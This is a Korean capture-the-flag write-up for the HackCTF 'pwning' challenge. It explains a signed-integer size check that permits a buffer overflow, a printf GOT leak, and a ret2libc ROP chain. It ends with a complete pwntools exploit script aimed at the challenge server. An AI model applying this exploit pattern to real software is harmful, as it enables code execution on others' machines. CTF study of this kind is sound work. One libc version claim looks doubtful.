 ```yaml
---
layout: post
title:  "HacCTF pwning write-up"
date:   2020-02-03 19:45:55
image:  hackctf_pwning.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```



### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20pwning/Untitled.png)

NX 비트 말고는 안걸려있다.
<br><br><br>
**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20pwning/Untitled%201.png)

몇 바이트를 입력할 것인지 사이즈를 묻고, 해당 사이즈 만큼 값을 입력할 수 있는 공간이 나온다. 그 뒤 입력한 데이터를 출력해주고 프로그램이 종료가 된다
<br><br><br>
**3) 코드 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20pwning/Untitled%202.png)

main 문은 별게 없고 vuln을 자세히 보면 된다. get_n 함수가 값을 입력할 수 있는 함수인 것같다. 또한 입력한 값의 범위는 32 미만으로 제한되어 있다.

32 미만의 값을 입력하면 get_n 함수를 한번 더 호출하여 데이터를 입력하게 된다. 그럼 get_n 함수를 살펴보자.
<br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20pwning/Untitled%203.png)

while문을 돌면서 getchar()를 통해 문자열을 입력받는다. 해당 반복문을 탈출하는 조건으로는 널 값을 입력하거나, get_nt 함수의 두번째 인자로 전달된 값보다 v5가 큰 경우에 탈출한다. 그리고 마지막으로 입력한 값이 10이면 종료를 한다.

여기서 v4==10의 의미는 getchar()가 호출되어 사용자가 데이터를 입력하고 엔터를 누르면 해당 엔터에 해당하는 아스키 값인 0xa까지 같이 들어가기 때문에 문자열의 끝을 판단하기 위한 조건이다.

해당 함수가 종료되고 atoi 함수를 이용하여 nptr 변수에 저장된 문자열을 정수로 변환 한다.
<br><br><br><br>
### 2. 접근방법

---

결국 이 문제도 사용자의 입력을 받는 부분에서 시작하여 비정상적인 위치에 원하는 값을 넣고 비정상적인 코드의 동작을 유발하는 것이 목적이다.

딱 봐도 ROP로 system 함수를 띄우는 것이 최종 목표로 보인다. 그렇다면 ret 값을 변경 할수 있는지 봐야한다. 
<br><br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20pwning/Untitled%204.png)

vuln 함수를 다시 보면 atoi의 반환값이 v2에 들어간다. 헌데 v2는 signed int 형이므로 음수가 입력이 가능하다. 따라서 음수가 입력가능하다는 소리이고, 이를 통해 32보다 큰 데이터를 입력할 수 있다.

확인을 하다보면 get_n 함수에서 48바이트 크기의 문자열을 아무렇게 입력하게 되면, vuln 함수의 ret 바로 직전까지 해당 데이터가 들어간 것을 알수 있다. (이는 문제를 풀다보니 꼼수아닌 꼼수로..)

결국 "A"*48 + 특정 함수 이렇게 입력을 하면 vuln 함수가 return 되고 main으로 가는 것이 아닌 삽입한 주소로 이동한다. 하지만 vuln에서는 반복적인 로직이 아니므로 바로 종료가 된다.

우리가 필요한 것은 libc의 base주소이다. 따라서 printf의 ptl, got를 이용하여 libc의 printf 주소를 leak하고 다시 vuln함수로 돌아가도록 체인을 걸어줘야 한다.

그다음 얻게 된 printf 주소로 libc database를 활용하여 원하는 오프셋을 구하여 ROP를 진행하면 된다.
<br><br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20pwning/Untitled%205.png)

아래 0xf7dea020가 libc에 존재하는 printf의 주소이다.  하위 3바이트를 가지고 어느 버전의 libc인지 알아보자
<br><br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20pwning/Untitled%206.png)

ubuntu20의 2.23 버전인 것을 확인할 수 있고 또한 printf, bin_sh, system 함수의 오프셋을 확인 가능하다. 이를 이용하여 ROP를 진행하면 끝이다.
<br><br><br><br><br>
### 3. 풀이

---

최종 익스코드는 다음과 같다
```python
from pwn import *
context.log_level="DEBUG"

p=remote("ctf.j0n9hyun.xyz",3019)
#p=process("./pwning")
#gdb.attach(p)
p.sendlineafter("? ","-5")

payload = "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
payload +=p32(0x8048370)
payload +=p32(0x804852f)
payload +=p32(0x804a00c)
p.sendlineafter("\n",payload)
p.recvuntil("\n")
printf_got=u32(p.recv()[:4])
log.info(hex(printf_got))


libc_base=printf_got-0x049020
system_adr=libc_base+0x0003a940
bin_adr=libc_base+0x15902b

payload2="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
payload2+=p32(system_adr)
payload2+="AAAA"
payload2+=p32(bin_adr)

p.sendline("-5")
p.sendlineafter("\n",payload2)

p.interactive()
```

<br><br><br>
### 4. 몰랐던 개념

---

모르는 개념은 없었지만, ROP를 진행하기 위해 반복문이 없어서 삽질을 좀 했다. 반복문이 없다면 만들면 될것을..

이렇게 반복문이 없는 로직에서 직접 해당 함수로 다시 돌아가는 ROP 문제를 몇개 풀었었는데 이젠 까먹지 말자.